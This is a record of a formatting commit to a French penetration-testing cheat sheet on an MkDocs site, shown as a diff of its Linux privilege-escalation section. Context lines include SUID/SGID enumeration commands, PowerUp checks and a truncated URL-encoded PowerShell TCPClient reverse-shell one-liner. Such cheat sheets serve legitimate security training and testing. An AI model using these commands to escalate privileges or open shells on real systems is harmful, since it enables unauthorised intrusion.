

Before and after one commit to NathanEtinzon/CEFIM, an MkDocs documentation site: the page built from docs/PENTEST_CHEAT_SHEET.md, in a window 1280 px wide and 1400 px high, scrolled down 3805 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Maj PenTest Cheat Sheet

```diff
--- a/docs/PENTEST_CHEAT_SHEET.md
+++ b/docs/PENTEST_CHEAT_SHEET.md
@@ -129,12 +129,12 @@ powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient
 
 ## Escalade de privilèges sous Linux
 
-> **Énumération**
-[LinEnum](https://github.com/rebootuser/LinEnum)
-[LinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md)
+### Énumération
+>[LinEnum](https://github.com/rebootuser/LinEnum)
+>[LinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md)
 
+### Séquences d'échappement Shell
 > **[GTFOBins](https://gtfobins.github.io)**
->>- Séquences d'échappement Shell
 >>- Variable d'environnement *sudo*
 >>- Crontab en général
 >>- SUID/SGID
@@ -142,8 +142,7 @@ powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient
 >>>- `find / -perm -4000 -type f 2>/dev/null`
 >>>- `find / -perm -6000 -type f 2>/dev/null`
 
-> **Exploit de service**
-[Exploit Database](https://www.exploit-db.com/)
+### Autres
 
 > /etc/shadow en lecture/écriture
 
@@ -165,7 +164,6 @@ powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient
 >>> `. .\PowerUp.ps1`
 >>> `Invoke-AllChecks`
 
-
 ## JohnTheRipper
 
 **Crackage de hash**
```
Also changed, not shown: other parts of docs/PENTEST_CHEAT_SHEET.md (+9 -0 lines).
